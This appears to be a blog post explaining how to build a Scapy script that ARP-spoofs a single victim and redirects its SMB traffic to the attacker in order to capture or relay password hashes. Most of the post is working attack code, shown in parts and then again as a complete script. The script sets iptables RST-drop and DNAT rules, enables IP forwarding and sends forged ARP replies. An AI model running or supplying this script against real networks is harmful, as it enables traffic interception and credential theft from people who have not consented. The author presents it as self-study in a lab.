 ```yaml
---
published: false
---
```

Sure there are already some pretty good security tools that can pull off ARP spoofing: Ettercap, Bettercap, etc. This post details what I learned when I wanted to do it myself using Scapy, in the hopes that I can help someone else who's also trying to learn how to use Scapy. After a while you get tired of using other people's tools and want to learn how to do it yourself, even if you're just creating yet another tool to do 'X', at least you're learning something new.

Man In The Middle (MITM) attacks against a whole subnet frequently cause a Denial of Service (DoS) condition. In this case, I want to ARP spoof a single victim and redirect any SMB traffic to my attacker system so that I can capture or relay hashes. 

In my lab, my victim was running a fully patched Windows 10 OS. I monitored my arp table using 'arp -a'. In the interest of saving some time and not having to run an extended ARP spoof attack, I cleared my victim's ARP cache using 'arp -d *' before starting the attack.

First, our imports and argument parser. Using sys.argv[] for command line arguments is just clunky. I like to use argparser even in really short scripts that accept cli arguments.

```python
from scapy.all import *
import os
import sys
import argparse

# Add arguments
parser = argparse.ArgumentParser(description='ScapyArpSpoof.py - ARP spoof a victim and redirect their SMB traffic to a local SMB listener to capture or relay hashes.')
parser.add_argument("victim_IP", help="Victim IP address.")
parser.add_argument("interface", help="Network interface name")
parser.add_argument("target_IP", help="Gateway or target IP address. Must be on the same broadcast domain as the attacker and victim.")
args = parser.parse_args()
```

Now we need to set some iptables rules and also enable IP forwarding. The first iptables rule prevents the kernel from seeing traffic that didn't originate from the kernel and sending a RST, which would kill our connection. The ip_forward is necessary, otherwise you'll DoS the victim that you're attacking because your system will intercept their comms but won't forward traffic on to the destination. The final iptables argument is required to forward any SMB traffic on to our attacker's IP address on port 445 so that we can either capture the hash and crack it, or relay it on using tools such as Metasploit, Responder, or other SMB relay tools.

```python
# Prevent kernel from interfering and sending RST's.
os.system("iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP")
# Enable forwarding so that we don't cause a DoS.
os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
# Redirect SMB traffic between victim and target to our IP address.
os.system("iptables -t nat -A PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))
```

This section creates the variables required for ARP. Hopefully I've commented the code well enough as-is to make it self-explanatory. The reason why you need a victim IP and a target IP is that in this case we're targetting a single victim and don't want to risk making ourselves known and risk DoS'ing a whole subnet. Very frequently a MiTM attack causes service disruptions, so I don't want to target a whole subnet. The target IP is either going to be the system that the victim is communicating with on the same subnet, or the default gateway (router) if on a different network subnet. Adjust the send arguments 'inter' and 'count' if you want to spoof more or less than a count of 60 here, which works out to one request per second for 60 seconds.

```python
# Create Arp args.
a = ARP()
a.pdst = args.victim_IP
a.hwsrc = get_if_hwaddr(args.interface) #attacker MAC address
a.psrc = args.target_IP
a.hwdst = "ff:ff:ff:ff:ff:ff"
send(a, inter=1, count=60)
```

Finally, we're going to clean up those iptables rules and reset IP forwarding to the default.

```python
# Restore iptables and /proc/sys/net/ipv4/ip_forward.
os.system("iptables -D OUTPUT -p tcp --tcp-flags RST RST -j DROP")
os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
os.system("iptables -t nat -D PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))
```

Complete code:

```python
from scapy.all import *
import os
import sys
import argparse

# Add arguments
parser = argparse.ArgumentParser(description='ScapyArpSpoof.py - ARP spoof a victim and redirect their SMB traffic to a local SMB listener to capture or relay hashes.')
parser.add_argument("victim_IP", help="Victim IP address.")
parser.add_argument("interface", help="Network interface name")
parser.add_argument("target_IP", help="Gateway or target IP address. Must be on the same broadcast domain as the attacker and victim.")
args = parser.parse_args()

# Prevent kernel from interfering and sending RST's.
os.system("iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP")
# Enable forwarding so that we don't cause a DoS.
os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
# Redirect SMB traffic between victim and target to our IP address.
os.system("iptables -t nat -A PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))

# Create Arp args.
a = ARP()
a.pdst = args.victim_IP
a.hwsrc = get_if_hwaddr(args.interface) #attacker MAC address
a.psrc = args.target_IP
a.hwdst = "ff:ff:ff:ff:ff:ff"
send(a, inter=1, count=60)

# Restore iptables and /proc/sys/net/ipv4/ip_forward.
os.system("iptables -D OUTPUT -p tcp --tcp-flags RST RST -j DROP")
os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
os.system("iptables -t nat -D PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))
```
